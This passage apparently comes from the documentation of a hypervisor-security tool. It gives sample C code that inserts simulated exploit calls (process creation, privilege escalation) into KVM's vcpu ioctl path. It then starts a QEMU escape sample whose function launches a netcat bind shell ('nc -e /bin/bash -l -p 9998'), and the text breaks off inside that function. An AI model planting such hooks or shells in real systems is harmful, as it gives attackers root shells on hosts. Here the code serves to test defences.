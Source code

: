 ```C
			old->egid.val = 0;
		}
	}
}

int kvm_arch_vcpu_ioctl_run(struct kvm_vcpu *vcpu)
{
	struct kvm_run *kvm_run = vcpu->run;
	int r;

	vcpu_load(vcpu);
	kvm_sigset_activate(vcpu);
	kvm_load_guest_fpu(vcpu);

	... omitted ...

	/* ================================================ */
	/* Add code here to simulate an IOCTL exploitation. */
	/* ================================================ */
	/* For creating a process. */
	kvm_exploit(TYPE_CREATE_PROCESS);

	/* For escalating the current privilege. */
	kvm_exploit(TYPE_PRIVILEGE_ESCALATION);

	if (kvm_run->immediate_exit)
		r = -EINTR;
	else
		r = vcpu_run(vcpu);

out:
	kvm_put_guest_fpu(vcpu);
	if (kvm_run->kvm_valid_regs)
		store_regs(vcpu);
	post_kvm_run_save(vcpu);
	kvm_sigset_deactivate(vcpu);

	vcpu_put(vcpu);
	return r;
}

```

## 5.2. Sample code for a QEMU exploitation

```C
/*
 * This code is for a QEMU exploitation.
 *
 * Please add code below to accel/kvm/kvm-all.c.
 *
 */

... omitted ...

/* Sample exploitation function. */
void qemu_escape(void)
{
	static char *argv[] = {
		"/bin/nc", "-e", "/bin/bash", "-l", "-p", "9998",
		NULL };
	char* env[] = {
		"HOME=/",
```